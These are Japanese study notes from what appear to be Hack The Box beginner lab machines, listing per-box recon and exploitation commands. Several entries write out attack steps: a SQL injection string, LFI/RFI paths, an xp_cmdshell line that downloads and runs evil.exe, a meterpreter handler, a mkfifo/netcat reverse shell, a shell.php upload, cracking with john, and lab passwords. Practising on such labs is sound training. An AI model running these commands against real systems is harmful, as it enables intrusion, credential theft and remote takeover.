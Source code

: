 ##sudo nmap -sV -p- -sC -sS 10.129.55.125 -min-rate 5000

# Meow
- ICMP( Internet Control Message Protocol)echoとは、データを送って相手にも同じデータを遅らせることで、正常に通信できているか確認する（PING）
- telnet 10.10.10.10 でrootユーザーの場合、パスワード無しでログイン
# Fawn
　- FTP（File Transfer Protocol）リスニングポートは２１
　- SFTP (Secure File Transfer Protocol) 安全なFTP
　- vsftpd　LinuxなどのUNIX系OSでよく利用されるFTPサーバ
　- ftp -h ヘルプコマンド
　- anonymous FTPサーバーでアカウントなしでログイン
　- 230　FTPログイン成功（Login successful）
　- dir ls ファイル一覧コマンド
　- get 元ファイルパス　送り先パス　でファイルをダウンロード
# Dancing
　- SMB（Server Message Block）とは、Microsoft Windowsのネットワーク上においてファイルやプリンターの共有などを行なうための、 
  - Microsoft独自の通信プロトコル
　-  445port SMB（microsoft-ds）
　- smbclient -hでヘルプ -L 10.10.10.10でホストのリストを一覧
　- smbclient //hostip/ディレクトリ　mbclient //10.129.94.140/Workshares  
# Reddmer
  - Redis　 NoSQLデータベースの一つ（オープンソフトウェあ）
　- redis-cli -h 10.10.10.10で接続、infoでサーバ情報取得
　- keys * でキー一覧を表示、type キーの名前でキーのデータ型が分かる
　- select　データベース名

# Appointment
　- SQL「Structured Query Language」、injection
　- HTTPS（443port）、HTTP（80port）
　- 404not found　はエラーメッセージ
　- [1’ or ‘1’=’1’;-- ]最後にスペース、インジェクションコマンド
　- [#]はSQLのコメントアウト
# Sequel
- mysql -h 10.10.10.10 -u root で接続できる
- select * FROM table名、use データベース名、show databases;、show tables;
# Crocodile
- namp -sCオプションはnmapのオリジナルのスクリプトを使用して脆弱性診断を行う
　- vsftpdは、Linuxを含むUnixライクなシステム用のFTPサーバー
  - ftp 10.10.10.10 でユーザー名はanonymous
　- gobuster dir -u http://10.129.181.244/ -w /usr/share/dirbuster/wordlists/directory-list-
- lowercase-2.3-medium.txt -x php
# Responder
　- ../../. ./../../../../../windows/system32/drivers/etc/hosts　LFI
　- //10.10.14.6/somefile　RFI
　- responder -Iでインタフェース指定、-iでIPアドレス指定
　　リスニングモードにし、ウェブページを更新すると、勝手にハッシュ値を探す
　- 5985port evil-winrm -u Administrator -p 'badminton' -i 10.129.140.152
　- WinRMとは、Windows ServerのWindows PowerShellを遠隔から操作する機能
　- hash解析john --wordlist=/home/kali/Downloads/rockyou.txt /home/kali/hash
　- aws s3 cp --endpoint-url http://s3.thetoppers.htb   s3://thetoppers.htb/index.php /home/kali/Desktop/
　- aws s3 --endpoint=http://s3.thetoppers.htb cp ./Desktop/shell.php s3://thetoppers.htb
　- aws s3 ls   --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
　　先に/etc/hostsにs3.thetoppersを登録しておかないとAWSにたどり着けない
　- PS C:\Users\denet> aws s3 cp s3://piyopiyo-s3-bucket/index.html .\Desktop\
download: s3://piyopiyo-s3-bucket/index.html to Desktop\index.html
　- MD5　https://hashtoolkit.com/decrypt-hash/?hash=2cb42f8734ea607eefed3b70af13bbd3

Archetype
　- smbclient -L //10.129.95.187　でsmb内をリストで表示　―Nでパスワード無し
　- smbclient //10.129.95.187/backups -Nでsmb: \> lsとなるからget filenameでダウンロード
　- mssqlclient.pyはMicrosoft SQL Server への認証された接続を確立するためインパケット
　- locateでmssqlclientを探し実行。
/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
　- kaliで目的のファイルがある階層に行き、python -m http.server 80で起動し
　　enable_xp_cmdshell、xp_cmdshell "powershell -c cd ../;  wget 10.10.15.189/evil.exe; ./evil.exe"
　　を実行するとファイルがダウンロードされる。
　　次に、metasploit1を起動し、multi/handler,set lhost set payload windows/meterpreter/reverse_tcpで
    Xp_cmdshell で./evil.exeを入力し実行すると接続が確立。
　　Upload winPEASx64で送り、shellで実行すると情報が出てくる。パスワードがあるので、evil-winrmを使って、evil-winrm -u Administrator -p 'MEGACORP_4dm1n!!' -i 10.129.95.187をすると実行。あとはファイルを探すだけ。たいていdesktopにある
# Oopsie
　- proxyはWebトラフィックを傍受できる
　- HTMLソースを見て、別のページがないか探す
　- 管理者アカウントのIDなどが分かったらCookieにIDを登録すると偽れる
　- gobusterでサブディレクトリを検索
　- 大抵ウェブログイン情報は、www/html/の下位層の最初gobusterで見つからなかったところにある。今回の場合はdb.php
　- find / -group bugtracker でファイルを探す
　- SUID（Set User ID）とは、実行権のあるファイルに設定される特殊なアクセス権
# Vaccine
　- zip2john -w パスワード付きＺｉｐをクラック、johnでハッシュ解析
　- sqlmap -r txt --os-shell　でtxtファイルには、burpsuiteのgetリクエストの内容をそのままにしたもの、手動でコピペするとerrorになるからファイルとして出力する
　- sqlmapを実行するとshellが返ってくる。Nc ―lvnp 1337で
Phpリバースシェルrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.186 1337 >/tmp/f　を実行すると確立する。
- python3 -c 'import pty;pty.spawn("/bin/bash");' を実行するとshellの形式になる
- index.phpファイルを探すかgrep -i -R “pass”でパスワードを探しsshにログイン
　Sudo -lを実行すると vi….がroot権限で実行されるので、
　Gtfobinsと検索し、shell,viに関連するコマンドを使用する。この時[i]を押して挿入モードにせず直接入力する。
# Unified
　-「GTFOBins」は、ローカルのセキュリティ制限を回避するため利用できるバイナリのリストです。権限昇格
　- cronで自動起動設定、詳しくはネットで
　- /dev/nullは何もない場所で、ここにリンクすると出力や、ファイルをなかったことに
できる。-group bugtracker /dev/nullとすると、このコマンドの出力を捨てられる。

- /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh-i 2>&1/nc 10.10.15.33 1337>/tmp/f　について
https://devlights.hatenablog.com/entry/2021/02/14/210033


Gobuster -xは拡張子を検索するオプションだけど、でてこないので、というより、今の環境だとVPN接続が切れて、エラーになるので、先にgobuster dir -u -wでファイル検索して、結果のファイル名をコピーして、リストにしてそのリストを設定した後、拡張子を設定する。

└─$ sudo gobuster vhost -u http://thetoppers.htb/ -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:             http://thetoppers.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
2023/08/12 09:50:52 Starting gobuster in VHOST enumeration mode
Found: s3.thetoppers.htb Status: 404 [Size: 21]

vhostでサブディレクりを探せる。dnsだと探せなかった。fuzzはhttp://http://thettoprs.htbとなってよくわからない
--append-domainとしないと、そのままwordリストのみのドメインで探すことになる。
-uはurlで

awscliがインストールできなかったがsudo apt --fix-broken install を実行したらインストールできた。
nikto の/var/lib/nikto/nikto.conf.defaultのFAILURESを20から２００に変更した。


